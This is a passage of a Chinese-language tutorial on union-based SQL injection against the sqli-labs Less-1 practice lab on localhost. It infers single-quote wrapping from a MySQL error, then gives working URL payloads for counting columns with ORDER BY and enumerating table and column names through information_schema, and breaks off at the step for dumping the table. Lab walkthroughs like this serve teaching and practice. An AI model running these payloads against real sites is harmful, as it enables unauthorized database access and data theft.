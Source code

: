 > **''1'' LIMIT 0,1'**   
> 观察报错语句，去掉最外层的引号，它是将从sql查询语句错误的地方开始用引号引起来，到语句结束处引号结束  
> 去掉引号之后，变为 **'1'' LIMIT 0,1**    
> 我们对ID的赋值为  **1'**  
> 所以可以猜到查询语句对ID的查询是单引号包起来   
> 这里可以看一下PHP源码  
> ![f4]({{site.baseurl}}/assets/images/images_of_sql_injection/mysql_injection_f4.png)   
> 可以看出ID确实是被单引号包裹起来的  

### 构造payload
1. 检测字段数  

   ```http
   http://127.0.0.1/sqli/Less-1/?id=1' order by 3 --+
   ```

   * order by 3 返回正确结果
   * order by 4 返回错误
   * 所以为3个字段  

   ![f5]({{site.baseurl}}/assets/images/images_of_sql_injection/mysql_injection_f5.png)  

2. 检测当前数据库的表名

   ```http
   http://127.0.0.1/sqli/Less-1/?id=-1' union select 1,2,3 --+
   ```

    * 因为前面检测出了3个字段，所以Union select 1,2,3
    * $\color{red}{返回结果}$  
    ![f6]({{site.baseurl}}/assets/images/images_of_sql_injection/mysql_injection_f6.png) 
    * 可以看出数字2和3在页面显示出来了，所以选择在2或者3上注入

   ```http
   http://127.0.0.1/sqli/Less-1/?id=-1' UNION SELECT 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() --+
   ```

   * 使用union select语句要注意$\color{red}{前面的条件不能成立，可赋id=-1}$
   * $\color{red}{返回结果}$
   ![f7]({{site.baseurl}}/assets/images/images_of_sql_injection/mysql_injection_f7.png)

3. 检测某一个表的列名

   ```http
   http://127.0.0.1/sqli/Less-1/?id=-1' UNION SELECT 1,group_concat(column_name),3 from information_schema.columns where table_name='users' --+
   ```

   * 记得表名要加单引号包裹起来
   * $\color{red}{返回结果}$  
   ![f8]({{site.baseurl}}/assets/images/images_of_sql_injection/mysql_injection_f8.png)


4. 爆出整个表或某几个想要的列
